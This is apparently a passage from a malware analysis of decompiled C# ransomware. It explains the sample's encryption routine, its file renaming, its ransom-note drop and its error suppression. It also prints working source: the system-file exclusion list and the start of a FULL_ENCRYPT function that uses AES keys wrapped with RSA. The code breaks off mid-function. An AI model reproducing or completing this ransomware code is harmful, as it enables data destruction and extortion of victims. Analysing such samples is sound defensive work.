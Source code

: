     -   If the file size is less than 524288 bytes (512 KB), it performs a full encryption (`Program.FULL_ENCRYPT`) and then renames the file with a random string extension.
    -   If the file is larger than 512 KB, it performs a triple encryption (`Program.TRIPLE_ENCRYPT`) and also renames the file.
8.  **Remove Read-Only Attribute If Necessary**:
    
    -   If the file is read-only, it attempts to change its attributes to normal to allow writing.
9.  **Writing a Message File Once**:
    
    -   If the `flag` is still `true`, it changes the flag to `false` and writes a message file in the directory. This is done only once for the first file that meets the criteria, as indicated by the use of the `flag` variable.
10.  **Error Handling**:
    

-   The empty `catch` blocks suggest that any exceptions encountered during processing are ignored.

### Key Points

-   This function is designed to encrypt files within a directory, targeting specific file extensions and handling files of different sizes differently.
-   It renames files after encryption to have a new extension generated by `Program.RANDOM_STRING(5)`.
-   A message file is created in the directory after processing the first eligible file.

## EXCEPTIONAL_FILE function
```csharp
private static bool EXCEPTIONAL_FILE(string FileName)
{
	FileName = FileName.ToLower();
	string[] array = new string[]
	{
		"iconcache.db",
		"autorun.inf",
		"thumbs.db",
		"boot.ini",
		"bootfont.bin",
		"ntuser.ini",
		"bootmgr",
		"bootmgr.efi",
		"bootmgfw.efi",
		"desktop.ini",
		"ntuser.dat"
	};
	return Array.Exists<string>(array, (string E) => E == FileName.ToLower());
}
```
## FULL_ENCRYPT function
```csharp
private static void FULL_ENCRYPT(string filePath)
{
	byte[] array = File.ReadAllBytes(filePath);
	string text = Program.RANDOM_STRING(32);
	string text2 = Program.RANDOM_STRING(16);
	byte[] bytes = Encoding.ASCII.GetBytes(text + "|" + text2);
	Program.RSA_KEY_IV = Program.RSA_ENCRYPT(Program.RSA_PUBLIC_KEY, bytes);
	using (FileStream fileStream = new FileStream(filePath, FileMode.Open, FileAccess.Write))
	{
		fileStream.SetLength(0L);
		byte[] array2 = null;
		using (MemoryStream memoryStream = new MemoryStream())
		{
			using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
			{
```